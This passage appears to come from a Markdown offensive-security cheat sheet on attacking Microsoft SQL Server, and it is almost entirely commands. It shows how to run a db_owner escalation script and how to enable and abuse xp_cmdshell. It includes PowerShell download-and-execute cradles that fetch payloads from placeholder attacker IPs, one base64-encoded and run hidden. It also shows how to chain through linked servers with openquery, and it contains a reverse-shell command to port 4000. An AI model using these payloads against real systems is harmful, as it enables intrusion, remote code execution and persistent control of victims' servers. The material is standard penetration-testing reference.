 ````
```

#### DB_Owner exploit script
- https://raw.githubusercontent.com/nullbind/Powershellery/master/Stable-ish/MSSQL/Invoke-SqlServer-Escalate-Dbowner.psm1
```
Import-Module .\Invoke-SqlServerDbElevateDbOwner.psm1
Invoke-SqlServerDbElevateDbOwner -SqlUser <USER> -SqlPass <PASSWORD> -SqlServerInstance <INSTANCE>
```
 
### Command execution
![image](https://user-images.githubusercontent.com/43987245/151711534-6114738f-6c9c-49b2-8c5f-0cb27f5fa6d0.png)

#### Check xp_cmdshell
```
SELECT * FROM sys.configurations WHERE name = 'xp_cmdshell';
```
 
#### Enable and run xp_cmdshell
```
-- Enable show options
EXEC sp_configure 'show advanced options',1
RECONFIGURE
GO
-- Enable xp_cmdshell
EXEC sp_configure 'xp_cmdshell',1
RECONFIGURE
GO
-- Quickly check what the service account is via xp_cmdshell
EXEC master..xp_cmdshell 'whoami'
```
 
#### Execute commands trick
- Prevents having to deal with the escaped, qoutes, double qoutes etc
```
$str = 'IEX ((new-object net.webclient).downloadstring("http://x.x.x.x:8090/payload"))'
[System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str)) | clip
EXEC xp_cmdshell 'powershell.exe -w hidden -enc <BASE64 STRING>';
```
 
#### Execute commands examples
```
Get-SQLServerLinkCrawl -Instance <SQL INSTANCE> -Query "exec master..xp_cmdshell 'whoami'"
Invoke-SQLOSCmd -Instance <SQL INSTANCE> -Verbose -Command "Whoami" -Threads 10
 
Invoke-SQLOSCLR -Instance <SQL INSTANCE> -Verbose -Command "Whoami" 
Invoke-SQLOSOLe -Instance <SQL INSTANCE> -Verbose -Command "Whoami" 
Invoke-SQLOSR -Instance <SQL INSTANCE> -Verbose -Command "Whoami" 
```

#### Execute command through links example
```
select * from openquery("192.168.23.25",'select * from openquery("db-sqlsrv",''select @@version as version;exec master..xp_cmdshell "powershell iex (New-Object Net.WebClient).DownloadString(''''http://192.168.100.X/Invoke-PowerShellTcp.ps1'''')"'')')
```

#### Execute reverse shell example
```
Get-SQLServerLinkCrawl -Instance <INSTANCE> -Query "exec master..xp_cmdshell 'Powershell.exe iex (iwr http://xx.xx.xx.xx/Invoke-PowerShellTcp.ps1 -UseBasicParsing);reverse -Reverse -IPAddress xx.xx.xx.xx -Port 4000'"
```
 
### Database links
````